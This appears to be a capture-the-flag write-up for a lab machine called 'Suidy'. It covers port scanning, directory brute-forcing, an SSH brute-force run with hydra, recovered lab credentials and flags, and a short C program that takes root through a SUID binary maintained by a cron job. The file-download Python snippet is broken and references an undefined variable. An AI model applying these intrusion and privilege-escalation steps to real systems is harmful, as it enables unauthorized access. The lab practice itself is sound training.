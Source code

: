 root@kali ~# nmap -sS -A -T4 -p- 10.0.0.17

22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                                       
| ssh-hostkey:                                                                                            
|   2048 8a:cb:7e:8a:72:82:84:9a:11:43:61:15:c1:e6:32:0b (RSA)                                            
|   256 7a:0e:b6:dd:8f:ee:a7:70:d9:b1:b5:6e:44:8f:c0:49 (ECDSA)                                           
|_  256 80:18:e6:c7:01:0e:c6:6d:7d:f4:d2:9f:c9:d0:6f:4c (ED25519)                                         
80/tcp open  http    nginx 1.14.2                                                                         
|_http-title: Site doesn't have a title (text/html).                                                      
|_http-server-header: nginx/1.14.2 

nmap find 2 open ports, let's start enumuerating HTTP. 

root@kali ~# gobuster dir -u http://10.0.0.17 -w /usr/share/wordlists/dirb/common.txt

/index.html           (Status: 200) [Size: 22]
/robots.txt           (Status: 200) [Size: 362]

Going to robots.txt we get this message.

robots.txt:
/hi /....\..\.-\--.\.-\..\-. shehatesme
I didn't understand what was the meaning of the wired string so I searched similar patterns online and found out is was a "Morse" code.

Morse decode ---> H I A G A I N

Not very helpful but we have more information in the message, if we go to /shehatesme we get another message:

She hates me because I FOUND THE REAL SECRET! I put in this directory a lot of .txt files. ONE of .txt files contains credentials like "theuser/thepass" to access to her system! All that you need is an small dict from Seclist! 

I downloaded the tool "seclists" from https://github.com/danielmiessler/SecLists and after using the wordlist /seclists/Miscellaneous/lang-english.txt I found those text files:

about.txt            
admin.txt            
airport.txt          
alba.txt             
art.txt              
blog.txt             
es.txt               
folder.txt           
forums.txt           
full.txt             
guide.txt            
issues.txt           
java.txt             
jobs.txt             
link.txt             
network.txt          
new.txt              
other.txt            
page.txt             
privacy.txt          
search.txt           
secret.txt           
space.txt            
welcome.txt          
wha.txt              
cymru.txt            
google.txt

Since the message says there are usernames and passwords in the files we need download and read them, let's use python for that.

[
	import requests
	import urllib
	
	URL = "http://10.0.0.17/shehatesme"
	
	with open ("./foundFiles.txt","r") as file:
	    lines = file.readlines()
	    for index in range(len(lines)):
	        fileName = lines[index].rstrip()
	        req = requests.post((URL + "/" + fileName) ,allow_redirects=True)
        urllib.request.urlretrieve(urlWithFiles, "Files/"+fileName)
]

Found crediantles:

hidden1/passZZ!
jaime11/JKiufg6
jhfbvgt/iugbnvh
john765/FDrhguy
maria11/jhfgyRf
mmnnbbv/iughtyr
nhvjguy/kjhgyut
yuijhse/hjupnkk

I divided the users and passwords to separte files.

root@kali ~/D/C/S/Files# cat * | sort | uniq | cut -d '/' -f1
hidden1
jaime11
jhfbvgt
john765
maria11
mmnnbbv
nhvjguy
yuijhse

root@kali ~/D/C/S/Files# cat * | sort | uniq | cut -d '/' -f2
passZZ!
JKiufg6
iugbnvh
FDrhguy
jhfgyRf
iughtyr
kjhgyut
hjupnkk

root@kali ~/D/C/Suidy [SIGINT]# hydra -L users.txt -P passwords.txt ssh://10.0.0.17 -I -t4

Suprisangly none of the creds we found were valid, it was the "theuser:thepass".
(一_一)

After loggin in we can find the first flag.

theuser@suidy:~$ cat user.txt 
HMV2353IVI

theuser@suidy:/home/suidy$ ls -l
total 8
-r--r----- 1 suidy suidy   197 sep 26  2020 note.txt
-rwsrwsr-x 1 root  theuser 246 ene 31 21:32 suidyyyyy

There is another home folder named suidy, it holds a note and an a file with SUID permissions of root named suidyyyyy.

note.txt:
I love SUID files!
The best file is suidyyyyy because users can use it to feel as I feel.
root know it and run an script to be sure that my file has SUID. 
If you are "theuser" I hate you!

-suidy

The note says that there is a program on /root that checks if the program "suidyyyyy" is SUID, we can upload pspy64s to the machine and see what happens. The machine doesn't allow to download files from github so I downloaded the file to my local machine and downloaded it from there.

crontab:
2022/01/30 22:46:01 CMD: UID=0    PID=1937   | /bin/sh -c sh /root/timer.sh 
2022/01/30 22:46:01 CMD: UID=0    PID=1938   | sh /root/timer.sh 

2022/01/31 01:33:48 CMD: UID=1001 PID=2815   | sh -c /bin/bash 
2022/01/31 01:33:48 CMD: UID=1001 PID=2816   | /bin/bash 

If we runn ./suidyyyyy we switche to "suidy" user.
Because the /root/timer.sh program allows suidyyyyy to be run with SUID permissions we can move another a C program that gives our user the uid and gid of the root user and a shell.

[
	#include <stdio.h>
	#include <sys/types.h>
	#include <unistd.h>
	#include <stdlib.h>
	
	int main(void)
	{
		setuid(0);
		setgid(0);
		system("/bin/bash");
	}
]

root@suidy:~# cat user.txt 
HMV2353IVI
